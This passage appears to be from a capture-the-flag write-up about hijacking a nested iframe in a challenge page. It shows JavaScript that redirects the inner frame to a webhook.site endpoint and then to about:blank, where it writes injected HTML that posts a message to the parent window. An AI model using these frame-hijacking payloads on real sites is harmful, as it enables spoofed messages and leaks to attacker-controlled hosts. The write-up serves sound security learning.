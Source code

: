 Well, turns out I got stuck on this for... 4 hours 💀. 

The issue I had is that I catch the iframe, but the request to my url is canceled everytime. While banging my head for 4 hours just on this I was about to give up tbh... Turns out this happens bcs I was spamming the url, even after it was set. I had no idea browser cancels requests when they are being spammed this way...

Current code:
```javascript
<iframe src="http://web:1337/ad.html" id="testFrame" width="800" height="600"></iframe>

<script>
   const interval = setInterval(() => {
        try{
            window.frames[0].frames[0].location = "https://webhook.site/4957a826-7bab-461c-9642-a1bc1a9ee561";
            clearInterval(interval);
        } catch (e) {
        }
    }, 0.1);
</script>
```
![alt text](image.png)

So after spending 4 hours trying to fix this and looking at the network tab and ms I thought myb the ad.js bcs it was async await call it cancels the request or something... No idea :| .

Tbh I still have no idea why this was happening, My guess is something to do with this or the async await thing I mentioned above:
https://medium.com/@itskishankumar98/api-cancellation-on-the-browser-5504bb68c974

I suddenly remembered one other way that I've read about to bypass the frame-src CSP. Well even tho there was no CSP in this case I thought well, what if I don't need to fetch and request anything? What if I can load a blank page and just write on it?

Yup!

I immediately tried using `about:blank` instead of an url and SOP allows you to write on about:blank page by default so I just loaded about:blank and wrote my own html on it == works!

```javascript
   const interval = setInterval(() => {
            try {
               
                window.frames[0].frames[0].location = "about:blank";
                window.frames[0].frames[0].document.write(`<!DOCTYPE html>
                                            <html>
                                            <head>
                                                <title>Server Response<\/title>
                                            <\/head>
                                            <body>
                                                <script>
                                                        window.parent.postMessage({
                                                        payload: 'lmao'
                                                        }, '*'); 
                                                <\/script>
                                            <\/body>
                                            <\/html><\/script>`);
                
    
                console.log("SUCCESS!");
```